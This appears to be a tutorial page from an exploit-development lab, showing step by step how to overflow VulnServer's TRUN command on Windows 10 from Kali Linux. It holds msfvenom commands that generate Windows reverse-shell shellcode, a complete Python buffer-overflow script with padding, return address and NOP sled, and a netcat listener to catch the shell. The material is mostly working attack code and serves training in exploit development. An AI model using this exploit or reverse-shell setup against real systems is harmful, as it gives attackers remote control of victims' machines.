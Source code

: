 #### Kali Linux:
msfvenom -p windows/shell_reverse_tcp LHOST=<Kali IP> LPORT=<Kali Port#> EXITFUNC=thread -f c -a x86 -b “\x00”
1. -p: payload; create a windows reverse shell
2. LHOST=<Kali IP>; Listening Host
3. LPORT=<Kali Port#>; 
4. EXITFUNC=thread
5. -f: for file type; creating a C program 
6. -a: architecture; creating for 32bit (x86)
7. -b: for bad character; add in any characters you would like to exclude. 

** Note: I had to change the command a little to get it to work for me, which is the command you see below. **
```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.16 LPORT=4444 EXITFUNC=thread -f c -b '\x00'
```

This will out put the shellcode we need to add to our python script. Take note of the payload size incase it is to big for our uses if doing lots of exploit development. 

create python script bof.py
```
#!/usr/bin/python

import sys, socket

overflow = ("")         # copy over the shell code from msfvenom

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow      # fill memory with 2003 A's, add jump instruction, add nop padding, add shellcode to run 

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + shellcode))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```

open a terminal and run NetCat listen for the reverse shell. 

```
# nc -nvlp <port#> 
listening on [any] 4444 …
```

#### Windows 10:
Make sure VulnServer is running as admin, Immunity shouldn’t be needed anymore. 

#### Kali Linux:
run bof.py

check terminal running NetCat and you should have a connection

